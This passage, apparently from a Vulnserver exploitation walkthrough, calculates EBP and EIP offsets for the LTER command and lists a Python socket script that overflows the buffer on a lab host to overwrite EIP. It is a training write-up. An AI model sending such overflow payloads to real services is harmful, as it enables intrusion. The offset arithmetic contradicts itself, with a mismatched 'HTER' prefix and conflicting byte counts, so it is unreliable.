 ```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 offset.py
```

We overwrote ```EBP``` and ```EIP``` with ```B's``` and ```C's```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-offset-final.png">
</div>

Now, using the data from the registers we are going to locate the offset in the buffer space to reach the data

In our payload we used,

```HTER ./``` - 7 bytes

```"A"s``` - 2001 bytes

```"B"s``` and ```"C"s``` - 4 bytes

Offset of ```EBP``` = 7 + 2001 = 2008 bytes

Offset of ```EIP``` = 7 + 2001 + 4 = Offset of EBP + 4 = 2012 bytes

So we should use 7 bytes of ```LTER ./``` and 2005 bytes of ```A's``` to reach ```EIP```

## Overwriting Instruction Pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat overwrite-eip.py    
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 overwrite-eip.py
```
